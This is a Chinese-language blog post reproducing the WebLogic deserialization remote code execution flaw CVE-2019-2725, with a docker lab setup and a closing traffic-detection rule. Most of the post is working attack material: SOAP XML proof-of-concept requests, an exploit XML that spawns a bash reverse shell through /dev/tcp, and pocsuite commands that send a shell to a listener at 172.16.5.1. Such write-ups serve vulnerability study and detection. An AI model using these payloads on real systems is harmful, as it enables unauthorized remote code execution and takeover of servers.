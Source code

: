 ```yaml
---
layout: post
title:  "Weblogic反序列化远程代码执行漏洞（CVE-2019-2725)" 
date:   2019-08-08 17:10:51
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Weblogic反序列化远程代码执行漏洞（CVE-2019-2725)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## Weblogic反序列化远程代码执行漏洞（CVE-2019-2725)

## 漏洞概述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 


### 漏洞复现

#### Poc：
* 通用无回显 poc

向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

* 特定版本可回显 poc

向 /wls-wsat/CoordinatorPortType 传递恶意构建的 xml 请求可以触发回显信息。通过使用 ls 命令查看目录下是否存在 server bin 等必要目录，如果存在这些必要目录，则判定 poc 执行成功
Version = 10.*
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml",
"cmd": "whoami"
body:
参考下面 pocsuite poc 部分
```
Version = 12
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml"
body：
参考下面 pocsuite poc 部分
```


#### Exp：
* exp_for_asy

向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
* exp_for_wls
参考下面 pocsuite exp 部分
#### Pocsuite
* poc

[poc.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/poc.py)
```bash
pocsuite -r poc.py -u 172.16.5.162 
```
* exp

[exp.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/exp.py)
```bash
pocsuite -r exp.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 
